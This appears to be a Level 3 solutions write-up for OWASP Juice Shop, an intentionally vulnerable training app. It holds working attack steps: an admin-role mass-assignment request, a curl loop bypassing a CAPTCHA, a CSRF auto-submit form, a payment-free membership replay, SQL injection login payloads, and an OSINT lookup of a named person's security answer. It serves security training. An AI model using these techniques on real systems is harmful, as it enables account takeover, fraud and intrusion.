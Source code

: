 # Level 3

## Admin Registration
_Register as a user with administrator privileges._

Modify the body of the user registration request (`POST /api/Users/`) by adding `"role":"admin",`:
```
{
  "email": "admin@mail",
  "role": "admin",
  "password": "admin1",
  "passwordRepeat": "admin1",
  "securityQuestion": {
    "id": 1,
    "question": "Your eldest siblings middle name?",
    "createdAt": "2020-08-13T14:12:54.775Z",
    "updatedAt": "2020-08-13T14:12:54.775Z"
  },
  "securityAnswer": "Whatever"
}
```

## Bjoern's Favorite Pet
_
Reset the password of Bjoern's OWASP account via the Forgot Password mechanism with the original answer to his security question._

Google for `bjoern kimminich cat name`.
One of the sources is this YouTube video https://www.youtube.com/watch?v=Lu0-kDdtVf4 (4:20).

The pet's name is `Zaya`

## CAPTCHA Bypass
_Submit 10 or more customer feedbacks within 10 seconds._

CAPTCHA is broken, the computation result is bound to `captchaId`.
We can simply bypass it by sending the same id over and over again. 

This small Bash script sends the request 10 times:
```
BEARER='eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9. ..'
for i in {1..10}
do
    curl -i -X POST \
        -H 'Content-Type: application/json' \
        -H "Authorization: Bearer $BEARER" \
        --data '{"captchaId":0,"captcha":"24","comment":"AAA (anonymous)","rating":3}' \
        https://vernjan-juice-shop.herokuapp.com/api/Feedbacks/
done
```

## CSRF
_Change the name of a user by performing Cross-Site Request Forgery from [another origin](http://htmledit.squarefree.com/)._

This no longer works in modern web browsers. 

The general idea is to craft a form similar to this:
```
<form action="YOUR_URL/profile" method="POST">
  <input type="text" id="username" name="username" value="John">
  <input type="submit" value="Submit">
</form> 
<script>document.forms[0].submit();</script>
```

## Deluxe Fraud
_Obtain a Deluxe Membership without paying for it._

Log in as a standard customer (not admin) and pay for the Deluxe membership (in top left menu).

This is the important request:
```
POST https://vernjan-juice-shop.herokuapp.com/rest/deluxe-membership
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9. ..
Content-Type: application/json

{"paymentMode":"card"}
```

The trick is to use a payment method you don't really have. For example, create a new user (do not add any payment cards)
and replay this exact request (just update the `Authorization` header).

## Login Bender
_Log in with Bender's user account._

The same as [Login Jim](#login-jim) challenge.

## Login Jim
_Log in with Jim's user account._

We need two things: email and password

Email is easy. Once you have the admin access, you can see it in _Administration_. It's `jim@juice-sh.op`.

To bypass the password check, we can use a simple SQL injection:
`jim@juice-sh.op';` or `jim@juice-sh.op'--`
